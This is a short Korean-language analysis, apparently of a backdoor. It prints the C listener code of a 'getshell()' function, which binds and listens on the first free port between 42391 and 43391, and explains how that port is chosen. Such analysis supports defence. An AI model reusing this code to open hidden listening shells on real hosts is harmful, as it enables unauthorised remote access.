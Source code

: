 
#### getshell() 함수

```c
int b(int *p)
{
        int port;
        struct sockaddr_in my_addr;
        int sock_fd;
        int flag = 1;
 
        if( (sock_fd = socket(AF_INET,SOCK_STREAM,0)) == -1 ){
                return -1;
        }
 
        setsockopt(sock_fd,SOL_SOCKET,SO_REUSEADDR, (char*)&flag,sizeof(flag));
 
        my_addr.sin_family = AF_INET;
        my_addr.sin_addr.s_addr = 0;
 
        for (port = 42391; port < 43391; port++) {
                my_addr.sin_port = htons(port);
                if( bind(sock_fd,(struct sockaddr *)&my_addr,sizeof(struct sockaddr)) == -1 ){
                        continue;
                }
                if( listen(sock_fd,1) == 0 ) {
                        *p = port;
                        return sock_fd;
                }
                close(sock_fd);
        }
        return -1;
}

...

sockfd = b(&toport); // looks like it selects random ephemral port here
if (sockfd == -1) return;
```

`SO_REUSEADDR` 옵션으로 커널이 소켓을 사용 중이어도 계속해서 사용할 수 있도록 한다  
이로 `b` 함수는 연결지향성 소켓 식별자를 반환하는데 해당 소켓은 42391 - 43391 범위 내의 포트 중 `listen()` 함수에 성공한 소켓 식별자를 반환한다   
<br>

---
